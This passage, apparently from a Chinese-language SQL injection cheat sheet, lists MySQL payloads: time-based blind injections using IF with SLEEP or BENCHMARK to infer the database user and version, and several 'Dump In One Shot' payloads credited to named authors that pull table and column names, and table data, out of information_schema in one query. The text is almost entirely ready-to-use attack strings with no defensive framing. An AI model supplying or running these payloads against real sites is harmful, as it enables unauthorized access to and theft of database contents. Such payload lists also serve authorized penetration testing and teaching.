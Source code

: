 
### 使用条件语句

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```


## MySQL一次性转储（DIOS）

DIOS（Dump In One Shot）SQL注入是一种高级技术，允许攻击者通过精心设计的SQL注入负载一次性提取整个数据库内容。此方法利用将多个数据片段连接成单个结果集的能力，然后从数据库中一次性返回。

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```

* SecurityIdiots
    ```sql
    make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* Profexer
    ```sql
    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
    ```

* Dr.Z3r0
    ```sql
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))
    ```

* M@dBl00d
    ```sql
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
    ```

* Zen
    ```sql
    +make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* sharik
    ```sql
    (select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
    ```
